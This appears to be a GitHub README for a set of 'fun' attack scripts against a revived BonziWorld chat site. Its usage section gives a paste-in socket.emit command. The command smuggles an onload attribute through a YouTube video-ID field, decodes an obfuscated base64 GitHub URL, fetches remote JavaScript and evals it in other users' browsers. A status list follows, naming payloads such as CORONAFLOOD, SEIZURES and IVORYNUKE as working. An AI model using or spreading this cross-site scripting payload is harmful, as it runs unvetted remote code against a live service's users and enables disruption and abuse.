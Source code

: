 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into https://bonziworld-revived-1.onrender.com/ and
paste this script `socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`
# Script Status?
ANANASORANG = Pacifists<br />
BALDIGLITCH = Genocides<br />
CORONAFLOOD = Genocides<br />
DOMINO = Genocides<br />
GAMEBOY = Genocides<br />
IVORYNUKE = Genocides<br />
LOSK = Genocides<br />
SEIZURES = Genocides<br />
WEBDRIVER = Genocides<br />
WTFDESTROY = Genocides<br />
BAN = Genocides<br />
ROTAT = Genocides<br />
NNNN = Genocides<br />
COMBINE = ?????
